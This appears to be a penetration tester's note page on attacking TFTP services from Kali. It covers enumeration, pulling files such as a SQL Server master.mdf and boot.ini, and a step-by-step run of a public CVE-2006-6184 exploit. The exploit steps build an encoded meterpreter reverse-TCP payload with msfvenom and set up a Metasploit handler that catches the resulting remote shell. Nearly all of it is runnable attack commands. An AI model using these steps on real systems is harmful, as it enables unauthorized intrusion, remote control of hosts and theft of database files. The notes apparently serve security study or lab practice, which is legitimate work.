 
```bash - kali
sudo nmap -sU -p69 --script tftp-enum $TARGET
```

#### tftp.py

```bash - kali
pip install tftpy
```

```python - kali
import tftpy
client = tftpy.TftpClient("$KALI", 69)
client.download("C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf", "/home/kali/Desktop/$TARGET/master.mdf", timeout=5)

#client.upload("filename to upload", "/local/path/file", timeout=5)
```

#### atftp
```bash - kali
sudo apt install atftp
```

```bash - kali
atftp -g -r "C:\boot.ini" $TARGET
```

If you are after a path that has spaces, try using [[Abbreviated dir]]'s.

https://github.com/shauntdergrigorian/cve-2006-6184/blob/master/atftp.py

==READ THE EXPLOIT STEPS VERY CAREFULLY!!==

1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```bash - kali
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```

2.) Next, use the following command to create a staged meterpreter shell payload:
```bash - kali
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```

3.) Then, combine the two files you just created.
```bash - kali
cat stackadj payload > shellcode
```

4.) Finally, let's eliminate the bad characters.
```bash - kali
msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
```

Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.

![[Pasted image 20220406211356.png | 1200]]

#### Metasploit Listener

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set PAYLOAD windows/meterpreter/reverse_nonx_tcp
```

```bash - kali
set ExitOnSession false
```

```bash - kali
set AutoRunScript post/windows/manage/migrate
```

```bash - kali
set lhost
```

```bash - kali
set lport
```

```bash - kali
exploit -j
```

```bash - kali
python atftp.py $TARGET 69 $KALI $OS-VERSION
```
